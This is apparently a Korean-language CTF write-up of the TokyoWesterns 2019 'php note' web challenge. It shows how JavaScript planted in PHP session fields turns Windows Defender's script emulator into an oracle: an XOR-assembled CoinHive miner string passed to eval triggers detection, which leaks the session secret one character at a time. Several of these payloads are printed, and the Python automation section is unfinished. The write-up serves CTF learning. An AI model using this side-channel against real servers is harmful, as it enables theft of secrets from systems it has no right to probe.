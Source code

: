 # PHP-NOTE

---

## # Intro

이번 문제는 TokyoWesterns CTF 2019에서 나온 web 문제 "php note" 이다.

문제 사이트 링크는 다음과 같다. [http://phpnote.chal.ctf.westerns.tokyo](http://phpnote.chal.ctf.westerns.tokyo)

이 문제의 소스코드를 보기 위해서는 ?page=source 라고 요청을 보내면 php source 를 볼 수 있다.

이 문제의 기능을 간단히 설명하자면, 사용자가 입력한 note를 SESSION에 직렬화하여 저장하고, 작성한 글을 불러 올때는 SESSION에 있는 직렬화된 데이터를 역직렬화하여 웹 페이지에 출력한다.

---

## # Guess

이 문제의 소스코드를 봤을 때 처음 생각이 난 부분은 php serialization vulnerability와 [https://univ-blog.xyz/entry/web-Deadly-bug-code-php](https://univ-blog.xyz/entry/web-Deadly-bug-code-php) 여기에 나와있는 코드와 매우 유사한 부분인 점이다.

php serialization 부분을 찾아봤지만 이번 문제에서는 이용할 만한 취약점은 아니었다. 위 링크에 나와있는 코드와 문제의 일부분 코드가 유사해서 똑같은 방법으로 hash_hmac()에 array를 집어 넣어도 문제를 풀 만한 방향은 아니었다.

그래서 포기...가 아니라 잠시 wrtieup이 올라 올때 까지 존버를 했다.

[https://saarsec.rocks/2019/09/04/twctf-phpnote.html](https://saarsec.rocks/2019/09/04/twctf-phpnote.html) 여기 링크에 php note의 writeup이 올라왔다.!!! 

사지방으로 달려가 흥분을 가라앉히고 천천히 롸없을 봤다.ㅎㅎ

이 이후는 위 링크를 참고하여 작성한 wrire up 이다.

---

## # Information of challenge "php note"

이 문제는 SECRET값과 realname, nickname을 SESSION 에 저장하고 관리한다. 따라서 만약 사용자가 이 사이트에 로그인을 하게 된다면 다음과 같이 SESSION 파일에 저장이 될것이다.

```
realname|s:11:"Hello World";nickname|s:6:"alfink";secret|s:32:"13371337133713371337133713371337";
```


이 문제는 windows 10 서버로 운영되고 있다. Response packet을 통해 알 수 있었다.
```
Response Header

Content-Length: 27171
Content-Type: text/html; charset=UTF-8
Date: Thu, 05 Sep 2019 04:53:10 GMT
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.9
```

기본적으로 windows 10은 Windows Defender가 깔려 있다. Windows Defender는 세션 파일을 포함한 모든 파일을 감시한다. 그래서 만약 세션 파일에 악의적인 스크립가 들어가 있다면, Windows Defender는 이 파일을 탐지하게 되고 로그인에 실패하게 된다. 

예를들어, realname에 ``` var miner = new CoinHive.User(); miner.start() ``` 라고 입력하고 가입을 하게 되면 어떻게 될까? 

Windows Defender 내장에는 javascript Engine이 있어 javascript 코드를 실행 할 수 있다고 한다. 따라서 위 javascript는 coin을 채굴하는 악성 스크립트로 판단하여 세션 파일을 탐지하고 로그인이 실패하게 된다. (실제로 login 입력 값을 악성 스크립트를 넘겼는데, 로그인이 안된다...미친..)

따라서 첫번째 스크립트를 포함해서 로그인을 시도하면 로그인이 되지 않고, 두번재는 그렇지 않았다.

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^40) + 'ive.User();miner.start';
    eval(mal);
</script>
```

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^65) + 'ive.User();miner.start';
    eval(mal);
</script>
```

위 코드를 이용해서 SESSION 값에 접근을 하여 SECRET 값을 유출 시킬 수 있다.

---

## # Approach the SECRET using javascript

SESSION에 javascript를 삽입하여 SESSION에 들어있는 SECRET을 유출시켜 보자.

php note 문제의 소스코드 중 다음과 같은 SESSION에 realname과 nicname, secret을 저장하는 코드가 있다.

```php
if ($action === 'login') {
    if ($method === 'POST') {
        $nickname = (string)$_POST['nickname'];
        $realname = (string)$_POST['realname'];

        if (empty($realname) || strlen($realname) < 8) {
            die('invalid name');
        }

        $_SESSION['realname'] = $realname;
        if (!empty($nickname)) {
            $_SESSION['nickname'] = $nickname;
        }
        $_SESSION['secret'] = gen_secret($nickname);
    }
    redirect('index');
}

```

위 코드의 흐름을 간단히 설명하자면 nickname 값이 없다면 realname, secret 순으로 저장이 된다.

**[nickname 값이 없을때]**

```
SESSION ==> realname|s:8:"universe";secret|s:32:"111111111111111111111111111111111111";
```

이 상태에서 nickname을 포함하여 다시 요청을 보내면 realname과 secret 값은 갱신이 되고 nickname은 SESSION 값의 맨 마지막에 추가가 된다.

**[nickname 값을 추가하여 다시 로그인 요청을 했을 때]**

```
SESSION ==> realname|s:8:"universe";secret|s:32:"111111111111111111111111111111111111";nickname|s:8:"universe";
```

위 SESSNION 값을 잘 보면 secret 값은 realname과 nickname 사이에 있는 것을 볼 수 있다. 

위에서 Windows Defender는 Javascript Engine을 가지고 있어 파일을 분석할때 사용된다고 말했다. 만약 realname 값에 <script>var body = document.body.innerHTML;</script><body>를 nickname 값에 </body> 값을 추가하여 로그인 하면 다음과 같은 SESSION 값을 가질 것이다.

```
SESSION ==> realname|s:67:"universe <script>var body = document.body.innerHTML;</script><body>";secret|s:32:"111111111111111111111111111111111111";nickname|s:15:"universe </body>";
```

그러면 Windows Defender는 위의 세션 파일을 검사하게 될 것이다. 아마도 Javascript Engine도 사용하여 검사를 할 것이다. 즉, 세션 파일에 <script> 태그가 있어 Javascript가 동작을 하게 되어 body 라는 변수에 document.body.innerHTML 값이 저장 된다. body[0]의 값은 ", body[1]의 값은 ;, body[2] 값은 s .... 이런식으로 세션 파일 내에 있는 값에 접근이 가능해 진다. (미쳐따..)
    
자, 우리는 SESSION 값 내에 접근을 할 수 있게 되었다. 하지만 웹 브라우저에 출력이 되는 것도 아니고 body[0]의 값을 들고 올 방법이 없다. 

여기서 Windows Defender의 Javascript Engine을 악용하는 방법을 이용한다. 위에서 설명했듯이 아래 javascript 를 이용하면 Windows Defender에 걸리지 않는다. 

```javascript
<script>
    var mal = 'var miner=new Coin';
    var n = document.body.innerHTML.charCodeAt(0);
    mal = mal + String.fromCharCode(n^65) + 'ive.User();miner.start';
    eval(mal);
</script>
```

위 코드를 일부분만 수정하면 다음과 같다.

```javascript
<script>
    var body = document.body.innerHTML;
    var mal = 'var miner=new Coin';
    var n = body[{offset}].charCodeAt(0);
    mal = mal + String.fromCharCode(n^{char_to_check})+'ive.User();miner.start(';
    eval(mal);
</script><body>
```

offset은 SESSION 값에 하나씩 접근하기 위해 index 값을 늘려주면 되고, 5번째 줄에 n^{char_to_check} 이 부분이 있다. 이것의 의미는 우선 우린 n의 값(body[0])을 모르기 때문에 임의의 문자(char_to_check)와 XOR 연산을 해서 이 값이 'H'가 아닌 다른 값이 된다면

```javascript
?ive.User(); miner.start('
```

값을 가질 것이고, 만약 XOR 연산을 했는데 "H" 가 나온다면

```javascript
Hive.User(); mineer.start('
```

가 되어 ``` var miner = new CoinHive.User(); miner.start( ``` 가 된다. Windows Defender는 이 세션 파일을 malware로 탐지하여 로그인이 되지 않을 것이다. 우리는 이것을 노리는 것이다. 로그인이 되지 않는 순간을 캐치해서 n의 값을 알 수 있게 된다.

여기까지가 SECRET 값에 접근하는 방법을 설명한 것이고 다음은 python코드로 이를 자동화 해보자.


---

## # Leaking the secret using python

작성중...



















